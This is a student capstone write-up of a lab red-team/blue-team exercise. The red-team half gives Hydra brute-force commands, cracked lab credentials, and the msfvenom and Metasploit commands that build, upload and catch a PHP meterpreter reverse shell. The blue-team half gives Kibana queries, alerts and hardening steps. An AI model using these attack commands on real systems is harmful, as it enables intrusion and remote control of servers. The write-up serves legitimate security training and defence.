##### Note: The report of this project is attached above in pdf format
# Red Vs. Blue Team Project Summary
## Capstone Engagement, Assessment, Analysis, and Hardening of a Vulnerable System
## Red Team: The Attack
### Step 1: Discover the IP address of the Linux server
Run `nmap 192.168.1.0/24`
* From the Nmap scan we can see that port 80 and port 22 is open
- 
* In the web browser, searched IP 192.168.1.105
* Information that helped with finding the secret folder is in the screenshot
* 
### Step 2: Locate the hidden directory on the server.
- Navigated to the secret folder directory by typing: 192.168.1.105/company_folders/secret_folder into the search bar
- The directory asks for authentication in order to access it.The user with access to this folder is Ashton 
### Step 3: Brute force the password for the hidden directory.
- The folder is password protected and we used Hydra to brute force into the directory. We ran Hydra against Ashton's user name and wordlist
- Command: `hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder`
- 
- The username is ashton and the password is leopoldo
- We accessed the Secret folder and we got the information below
- 
- 
- Inside of the WebDAV file are instructions on how to connect to the WebDAV directory, as well the user's username and hashed password.
- 
### Step 4: Connect to the server via Webdav
- We simply used and online tool called Crack Station to break the password hash. https://crackstation.net
- - 
- The password is revealed as: linux4u
### Step 5: Connect to the server via WebDAV
- Following the direction in the secret folder
- Open the File System
- Click Browse Network
- Type: dav://192.168.1.105/webdav into the url bar
- Enter Ryan's credentials to log in
### Step 6: Upload a PHP reverse shell payload
- Command to create the reverse shell in my Kali machine
- Commad: `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php`
- Copy the reverse shell from Kali into the WebdDAV directory
- 
- connect to the webdav folder by navigating to 192.168.1.105/webdav and use ryan's username and password `username:ryan password:linux4u`
- click on the shell.php file to activate it.
- 
- To set up listener
- Run `msfconsole`
- Run `use exploit/multi/handler`
- Run `set payload php/meterpreter/reverse_tcp`
- Run `show options and point out they need to set the LHOST`
- Run `set LHOST 192.168.1.90`
- Run `exploit`
- 
### Step 7: Find and capture the flag
- Run `shell` to drop into bash shell
- Command to find the flag: `find . -iname flag.txt`
- 
## Blue Team
## Incident Analysis with Kibana
### Final dashboard
- 
- 
### 1. Identify the Offensive Traffic
- Run `source.ip: 192.168.1.90 and destination.ip: 192.168.1.105` in which the source IP is my Kali machine and the destination machine is the victim web server
- Run `url.path: /company_folders/secret_folder/`
- The attack occurred in the last 7 days
- 
- We can see 401, 301, 207 and 200 as the top responses
- We can also see with the HTTP Error Codes [Packetbeat] ECS panel:
- 
- We can see a connection spike in the Connections over time [Packetbeat Flows] ECS
- 
- We can also see a spike in errors in the Errors vs successful transactions [Packetbet] ECS
- 
- ALERT: Rate-limiting traffic from a specific IP address would reduce the web server's susceptibility to DoS conditions, as well as provide a hook against which to trigger alerts against suspiciously suspiciously fast series of requests that may be indicative of scanning.
### 2. Find the Request for the Hidden Directory
- Looking at the Top 10 HTTP requests [Packetbeat] ECS panel:
- 
- we can see that the hidden directory (secret folder) folder was requested 16,075 times
- 
- We can see in the same panel that the file connect_to_corp_server was requested 2 times
- ALERT: We could set an alert that goes off for any machine that attempts to access this directory or file.
- Mitigation: The secret_folder directory should be protected with stronger authentication. E.g., it could be moved to a server to which only key-based SSH access from whitelisted IPs is enabled
- The data inside of secret_folder should be encrypted at rest
### 3. Identify the Brute Force Attack
- identifying packets specifically from Hydra
- Using the search function search url.path: /company_folders/secret_folder/. This will show a few conversations involving this folder.
- 
- Looking through the results and we notice that Hydra is identified under the user_agent.original section
- In the Top 10 HTTP requests [Packetbeat] ECS panel, we can see that the password protected secret_folder was requested 16,075 times, but the file inside that directory was only requested 2 times. So, out of 16,075 requests, only 2 were successful
- Take a look at the HTTP status codes for the top queries [Packetbeat] ECS panel
- 
- We can see on this panel the breakdown of 401 Unauthorized status codes as opposed to 200 OK status codes.
- We can also see the spike in both traffic to the server and error codes.
- We can see a connection spike in the Connections over time [Packetbeat Flows] ECS
- 
- We can also see a spike in errors in the Errors vs successful transactions [Packetbet] ECS
- 
- These are all results generated by the brute force attack with Hydra.
- ALERT: We could set an alert if 401 Unauthorized is returned from any server over a certain threshold that would weed out forgotten passwords. Start with 10 in one hour and refine from there
- We could also create an alert if the user_agent.original value includes Hydra in the name
- Create an alert that triggers after 3 lock outs by each user
- Mitigation: After the limit of 10 401 Unauthorized codes have been returned from a server, that server can automatically drop traffic from the offending IP address for a period of 1 hour. We could also display a lockout message and lock the page from login for a temporary period of time from that user.
- The fail2ban utility can be enabled to protect against brute force attacks
### 4. Find the WebDav Connection
- We can again see in the Top 10 HTTP requests [Packetbeat] ECS panel that the webdav folder was directly connected and files inside were accessed.
- 
- We can see the passwd.dav file was requested as well as a file named shell.php
- ALERT: We can create an alert anytime this directory is accessed by a machine other than the machine that should have access
- Mitigation: Connections to this shared folder should not be accessible from the web interface.
- Connections to this shared folder could be restricted by machine with a firewall rule
### 5. Identify the Reverse Shell and meterpreter Traffic
- We can see the shell.php file in the webdav directory on the Top 10 HTTP requests [Packetbeat] ECS panel
- 
- Remember that your meterpreter session ran over port 4444. Port 4444 is the default port used for meterpreter and the port used in all of their documentation. Because of this, many attackers forget to change this port when conducting an attack. You can construct a search query to find these packets.
- Query: `source.ip: 192.168.1.105 and destination.port: 4444`
- ALERT: We can set an alert for any traffic moving over port 4444.
- We can set an alert for any .php file that is uploaded to a server 
- Mitigation: File uploads should require authentication
- Removing the ability to upload files to this directory over the web interface would take care of this issue.
